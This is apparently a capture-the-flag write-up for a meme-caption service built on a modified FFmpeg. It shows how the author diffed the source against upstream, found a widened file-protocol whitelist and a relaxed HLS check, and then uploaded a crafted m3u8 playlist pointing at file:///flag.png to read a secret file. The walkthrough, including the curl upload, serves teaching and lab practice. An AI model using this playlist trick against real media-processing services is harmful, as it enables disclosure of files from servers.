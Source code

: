 # Checking the site

There is a webserver behind the given address. The service is adding a caption to an uploaded video (or image).

![](screenshots/1.png)

Uploading something generates a gif with the caption, like this.

![](workdir/memegen.gif)

# Backend

The backend has a lot of sanitization for the command line arguments, making it hard/impossible to inject anything.

```go
func sanitizeCaption(caption string) string {
	caption = strings.ReplaceAll(caption, "\\", "\\\\\\\\")
	caption = strings.ReplaceAll(caption, "\"", "\\\"")
	// ...
	caption = strings.ReplaceAll(caption, "-", "\\\\\\-")
	caption = strings.ReplaceAll(caption, "_", "\\\\\\_")
	caption = strings.ReplaceAll(caption, " ", "\\\\\\ ")

	return caption
}

func convertVideoToGIF(videoBytes []byte, caption string) ([]byte, error) {
	buf := bytes.NewBuffer(videoBytes)
	out := &bytes.Buffer{}
	err := ffmpeg.Input("pipe:0", ffmpeg.KwArgs{}).
		Output("pipe:1", ffmpeg.KwArgs{"f": "gif", "preset": "ultrafast", "t": "2", "vf": "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=" + caption + ":fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50"}).
		GlobalArgs("-hide_banner").
		GlobalArgs("-loglevel", "error").
		GlobalArgs("-nostats").
		WithTimeout(5 * time.Second).
		WithInput(buf).
		WithOutput(out).
		OverWriteOutput().
		Silent(true).
		Run()

	return out.Bytes(), err
}
```

# Version

Checking the source, it is using a slightly modified [ffmpeg](https://github.com/FFmpeg/FFmpeg) started from the `go` backend server. Based on the changelog, it is based on `ffmpeg` version 7.0.

Using git and diff can be used to find a close release. Making a repo with the current source and the FFmpeg repo as foreign source.

```bash
mkdir /tmp/challenge
tar xf challenge.tar.xz -C /tmp/challenge
cd /tmp/challenge/assets/FFmpeg/
git init
git add -A && git commit -m "Modified FFmpeg"
git remote add foreign https://github.com/FFmpeg/FFmpeg.git
git fetch foreign 
# tags like n7.0 and n7.0.1 are visible for version
```

And searching in it. Looking for the closest changelogs backwards from 7.0.1, then the smallest differenvce without the tests and Dockerfile.build (not present in foreign, used to build it). 

```bash
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master Changelog); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'); done
git diff e7d2238ad751e4ce4ebc5118af750fd5cc0c5055 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```

![](screenshots/3.png)


Alternatively `git bisect` can be used to look for it as a logarithmic search. 

```bash
git bisect start
git bisect good n7.0
git bisect bad n7.0.1

# Deciding whether it's good or bad based on the number of differences at every step.
git diff --shortstat HEAD master; git diff --shortstat HEAD^1 master 
git bisect good # one of these
git bisect bad # one of these

git bisect reset

git diff 6ab65792ab8e522f5a8a9f432ca11900f35a9d94^1 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```

This results in the same commit, `e7d2238ad751e4ce4ebc5118af750fd5cc0c5055`.

# Diff

This has mainly this 2 difference.

```
libavformat/file.c
-    .default_whitelist   = "crypto,data"
+    .default_whitelist   = "file,pipe,crypto,data"

libavformat/hls.c
-            return AVERROR_INVALIDDATA;
-            return 0;
```

These changes are related to the hls file format.

* [https://ffmpeg.org/ffmpeg-formats.html#hls-2](https://ffmpeg.org/ffmpeg-formats.html#hls-2)
* [https://developers.broadpeak.io/docs/foundations-hls](https://developers.broadpeak.io/docs/foundations-hls)

This can be tested locally like this (even with an unmodified ffmpeg binary).

```bash
ffmpeg -allowed_extensions ALL -i include.m3u8 -f gif -preset ultrafast -t 2 -vf "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=MEMEGEN:fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50" memegen.gif
```

# Exploit

After reading through the specs, a malicious [include.m3u8](workdir/include.m3u8) can include the secret `/flag.png`.

```
#EXTM3U
#EXT-X-TARGETDURATION:2
#EXTINF:2,
file:///flag.png
#EXT-X-ENDLIST
```

Uploading the file gives us the [flag](workdir/flag.gif).

![](screenshots/2.png)

Or from console with OCR.

```bash
curl -F "file=@include.m3u8;type=video/anything" http://10.10.2.10:5227/upload -o flag.gif
tesseract flag.gif -
```

# Flag
`CQ24{NEVER_TRUST_RANDOM_SOURCES}`
